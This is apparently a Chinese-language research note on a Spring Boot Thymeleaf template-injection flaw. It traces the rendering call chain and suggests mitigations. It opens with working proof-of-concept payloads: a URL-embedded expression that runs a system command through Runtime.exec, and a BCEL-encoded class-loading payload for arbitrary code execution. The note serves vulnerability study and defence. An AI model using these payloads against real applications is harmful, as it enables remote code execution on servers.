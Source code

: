 https://turn1tup.github.io/2021/08/10/spring-boot-thymeleaf-ssti/
# 漏洞利用
```text
poc
/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open -a Calculator.app%22).getInputStream()).next()%7d__::.x

结合bcel(JDK251后BCEL使用不了)
/lang=::__${"".getClass().forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AePMO$c2$40$U$9c$85B$a1$W$84$e2$f7$b7$t$c1$83$3dx$c4x1z$b1$w$R$83$e7$ed$b2$c1$c5$d2$92R$8c$fe$o$cf$5e$d4x$f0$H$f8$a3$8c$af$x$R$a3$7bx$_o$e6$cdL$de$7e$7c$be$bd$D$d8$c7$b6$F$Ts$W$e6$b1P$c0b$da$97L$y$9bX1$b1$ca$90$3fP$a1J$O$Z$b2$f5F$87$c18$8a$ba$92a$d6S$a1$3c$l$P$7c$Z_q$3f$m$c4$f1$o$c1$83$O$8fU$3aO$40$p$b9Q$a3$94$T$d1$c0$f5$a5$I$dc$W$7f$I$o$dem2$U$OD0$b1$$$b5$T$$n$cf$f8P$cb$u$9c$c1jG$e3X$c8$T$95$da$d8$T$d5$5e$9f$dfq$h$F$UM$ac$d9X$c7$GEP$aa$b0$b1$89$z$86Z$ca$bb$B$P$7b$ee$f1$bd$90$c3DE$nC$e5o8A$d3$c5$L$bf$_E$c2P$9dB$97$e30Q$D$ca$b5z2$f9$Z$e6$eb$N$ef$df$O$dda$c8$7b$v$Yv$ea$bf$d8v$S$ab$b0$d7$fc$zh$c5$91$90$a3Q$T$db$c8$d3$7f$a7$_$D$96$deB$d5$a2$c9$a5$ce$a8$e7v_$c0$9e4$3dC5$af$c1$Ml$aa$f6$f7$CJ$uS$_$60$f6G$7c$a1$cd$80$f2$x2N$f6$Z$c6$f5$p$8c$d3$t$8d$VI$97CV$bb90$a8$9a$84YH$3f$b2D$a8$ad$fd$81$8af2$9e$89$wH$e8h$b8$f6$Fz7$85$d0$t$C$A$A", true, "".getClass().forName("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance())}_______________
```

# 漏洞分析
## 前置学习thymeleaf
1.TemplateEngine(process)
2.TemplateManager(parseAndProcess)
3.ThymeleafViewResolver(createView)
File/ServletContext/SpringResource/String/Url + TemplateResolver

## 调用链
渲染的时候产生的问题
DispatcherServlet.render()
 ThymeleafView.renderFragment()
  StandardExpressionPreprocessor.parseExpression()
   StandardExpressionPreprocessor.preprocess()
    PREPROCESS_EVAL_PATTERN.matcher(input);
    VariableExpression.execute()

## 解释poc

```text
1.::
org.thymeleaf.spring5.view.ThymeleafView.renderFragment()中执行else部分
if (!viewTemplateName.contains("::")) {} else {...}
代表含义fragment
// Template name contains a fragment name, so we should parse it as such

2.__Expression__
org.thymeleaf.standard.expression.StandardExpressionPreprocessor.preprocess()中正则匹配
final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
PREPROCESS_EVAL_PATTERN = "\_\_(.*?)\_\_"
input = "~{user/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a Calculator.app").getInputStream()).next()}__::.x/welcome}"

最终执行: new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a Calculator.app").getInputStream()).next()
```

## 提出问题
1.研究一下作者给出的poc
::代表renderFragment, 在传入的viewName中含有fragment, 需要处理一下
/doc/{document}返回void时传入的名称作为viewName
redirect不会产生问题, 不会解析为表达式
/safe/doc/{document}传参增加了response所以无法利用

2.url利用中关于编码的问题
尝试了直接输入也可以没问题

3.漏洞产生的根本原因
在解析fragment的时候进行了表达式执行, 可以通过构造达到执行命令的效果

4.如何修复如何绕过
方法1使用ResponseBody
方法2使用redirect
方法3在传入参数增加response


5.执行表达式为什么是${expression}
6.其他的执行表达式都有哪些方式

## 调试遇到的问题:
1.run可以访问, 但是debug无法访问??
使用idea service发现卡住，然后去掉了所有断点就可以了

